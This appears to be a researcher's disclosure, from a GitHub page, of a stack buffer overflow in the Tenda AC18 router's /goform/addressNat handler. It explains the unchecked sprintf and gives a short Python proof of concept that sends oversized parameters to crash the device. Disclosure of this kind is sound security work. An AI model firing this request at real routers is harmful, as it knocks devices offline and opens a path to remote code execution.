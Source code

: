 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

## Timeline

TBD

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
